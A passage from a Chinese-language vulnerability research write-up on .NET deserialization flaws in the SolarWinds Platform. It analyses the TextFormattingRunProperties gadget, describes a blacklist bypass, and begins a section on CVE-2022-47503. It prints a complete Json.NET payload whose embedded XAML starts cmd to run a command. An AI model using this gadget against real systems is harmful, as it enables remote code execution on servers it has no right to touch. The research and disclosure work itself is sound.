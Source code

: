 ```plain
        return XamlReader.Parse(@string); // [4]
    }
    ...
}
```

代码段 20 TextFormattingRunProperties deserialization gadget

在 \[1\] 处，可以看到该类使用 `Serializable` 属性定义。

在 \[2\] 处，定义了 `Serializable` 构造函数。

在 \[3\] 处，它调用了 `GetObjectFromSerializationInfo` 方法，输入为受攻击者控制。

在 \[4\] 处，攻击者的输入被传递给 `XamlReader.Parse` 方法，从而导致使用 XAML 反序列化小工具的远程代码执行。

由于我们已经分析了 `Json.NET` 的能力，我们知道在反序列化过程中可以调用 `Serializable` 构造函数。基于这一点，即使该小工具没有在 `ysoserial.net` 中实现，也可以利用 `Json.NET`。示例小工具：

```plain
{
    '$type':'Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties,
Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35',
    'ForegroundBrush':'<ResourceDictionary
      xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\"
      xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\"
      xmlns:System=\"clr-namespace:System;assembly=mscorlib\"
      xmlns:Diag=\"clr-namespace:System.Diagnostics;assembly=system\">
            <ObjectDataProvider x:Key=\"LaunchCalc\" ObjectType = \"{ x:Type
Diag:Process}\" MethodName = \"Start\" >
        <ObjectDataProvider.MethodParameters>
        <System:String>cmd</System:String>
        <System:String>/c whoami >
C:\\Users\\Public\\abcd.txt</System:String>
        </ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </ResourceDictionary>'
}
```

代码段 21 Sample TextFormattingRunProperties gadget for Json.NET

总结一下，我们对黑名单的第一个绕过是基于该列表中的错误，其中提供了 DLL 名称而不是类名。尽管该小工具在 `ysoserial.net` 中没有为 `Json.NET` 实现，但事实证明它可以与有针对性的序列化器一起使用。

如果我们觉得没有其他选择，我们可能要验证小工具的工作原理，可能会发现它也可以用于利用不同的序列化程序。

#### 1.7 SolarWinds Platform – 第二个绕过 – CVE-2022-47503

当将上一个漏洞报告给供应商时，我的第一个想法是：“它可能会被修复在黑名单中的项。” 因此，我必须找到不同的方法来利用我们的反序列化漏洞。我的研究想法是：查看 `SolarWinds` 中实现的类，并验证：

-   有没有任何可以由 `Json.NET` 反序列化的类。
-   这会导致一些潜在的危险行为。

经过一段时间，我找到了 `SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy` 类：
